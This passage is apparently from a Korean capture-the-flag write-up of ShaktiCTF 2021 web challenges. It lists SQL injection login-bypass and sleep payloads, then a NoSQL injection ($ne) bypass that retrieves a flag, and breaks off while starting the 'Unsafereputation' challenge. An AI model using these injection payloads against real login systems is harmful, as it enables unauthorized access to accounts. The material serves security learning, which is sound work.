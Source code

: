     ```sql
    ' or 1=1 -- '
    ' or 1=1 #'
    " or 1=1 -- "
    " or 1=1 #"
    ' or sleep(1000) -- '
    " or 1=1 sleep(1000) -- "
    ' or sleep(10000) #'
    " or sleep(10000) #"
    ...
    ```

    SQL Injection 페이로드를 주입해봤지만

    별 효과가 있지 않았습니다.

    하지만 로그인할때 SQL만 쓰이는것이 아닌 NoSQL이라는것도 있기때문에

    요청을 할때 ``username[$ne]=&password[$ne]=`` 이처럼 NoSQL Injection를 시도하면

    ```
    Hey Administrator you are finally back!!! There were soo many n00bs trying to impersonate you , here's your secret, keep it safe - shaktictf{N0_sql_injection_15_e4sy}
    ```

    이렇게 로그인 우회에 성공하면서 플래그를 얻을 수 있습니다.

``Flag is shaktictf{N0_sql_injection_15_e4sy}``

## Unsafereputation

```
+ Description
  + It takes many good deeds to build a good reputation, and only one bad function to lose it.

+ Link
  + http://35.239.219.201:4000/

+ FILE
  + main.js
```

+ #### 문제분석

    ![Home Page](/post-images/ShaktiCTF/2021/WEB/Unsafereputation/Homepage.png)

    문제의 웹 사이트에 들어가보면 이러한 텍스트가 나오게됩니다.

    문제를 풀기 위해 아무리 분석해봤지만 아무것도 나오지 않았습니다.

    하지만 해당 문제는 ``main.js`` 파일 소스코드를 제공하기때문에 한번 살펴보면
